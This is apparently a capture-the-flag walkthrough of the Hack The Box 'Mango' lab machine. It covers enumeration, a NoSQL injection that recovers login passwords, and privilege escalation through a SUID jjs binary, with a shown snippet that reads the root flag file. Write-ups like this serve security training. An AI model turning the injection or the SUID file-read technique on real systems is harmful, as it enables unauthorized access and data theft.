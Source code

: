 # [Mango](https://www.hackthebox.eu/home/machines/profile/214)
## IP : 10.10.10.162

## **Step 0** : Ports Scan

![Ports-scan](images/ports_scan.png)

So we have a 22 SSH Port, a 80 HTTP port and a 443 HTTPS port open.

## **Step 1** : Web enumeration

* The HTTP website is forbidden to us.

Fuzzing the HTTP tells us we need to authenticate, and gives us intel on the server.

![fuzz_80](images/fuzz_80.png)



* The 443 gives us some kind of web search engine.

Searching for a word sends a **POST** query :

> https://mango.htb/?search=hello

There is also a link to **analytics.php** 

* FUZZ resultsts : 

![fuzz_443](images/fuzz_443.png)

* We see that **Flexmonster** is used, with hints on dir / files.

```
ErrorUnable to open file flexmonster/codepen.key?438061533.

It seems that this file doesn't exist or 'Access-Control-Allow-Origin' header is absent in the requested resource.

Read more info about this error
Details: <h1>Bad Path</h1><h3 style="color: red">/boomboom/v2/flexmonster/codepen.key</h3>
OK
```

* Seems to be a rabbit hole.

* The ports scan tells us one thing about the 443 server : 

> ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN

We find a web page with credidentials prompt.

> http://staging-order.mango.htb/index.php

With the `lab/exploit.py` we can find the admin password with NoSQL injection.

![find_password](images/find_password.png)

So, the password for user `admin` is `t9KcS3>!0B#2`

We found another user, `mango` with password `h3mXK8RhU~f{]f5H`


## SSH & Privilege escalation

```
ssh mango@mango.htb
```

* Using **SUID** permissions : 
```
$ find / -perm /4000
...
$ ls -l /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

-rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
* We see that **admin** has root permissions on `jjs` : 

```
su admin
```
* Using [GTFOBins with `jjs`](https://gtfobins.github.io/gtfobins/jjs/)

```
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

Owned Root !